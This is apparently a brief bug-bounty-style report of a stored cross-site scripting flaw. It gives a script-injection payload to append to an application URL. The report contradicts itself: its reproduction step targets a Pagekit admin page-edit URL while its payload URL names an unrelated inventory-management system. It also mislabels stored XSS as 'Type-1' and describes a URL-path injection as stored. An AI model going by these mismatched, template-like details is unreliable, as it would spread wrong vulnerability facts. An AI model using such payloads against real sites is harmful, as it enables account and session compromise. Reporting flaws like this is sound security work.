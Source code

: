 # Summary:
Stored cross-site scripting (also known as second-order or persistent XSS) arises when an application receives data from an untrusted source and includes that data within its later HTTP responses in an unsafe way.

# Description:
Stored XSS, also known as Type-1 or Persistent XSS attacks, typically rely on unsanitized user input points for scripts permanently stored on the target servers.

# POC
## Steps To Reproduce:
Go to : http://localhost/pagekit/admin/site/page/edit?id=2


On the url, enter payload after url: cuzh4"><script>alert('XSS')</script>rvhmf

Payload: http://localhost/php-inventory-management-system/index.php/cuzh4"><script>alert('XSS')</script>rvhmf



# Impact:
The impact of store cross-site scripting (XSS) can be significant and pose various risks to both web applications and users
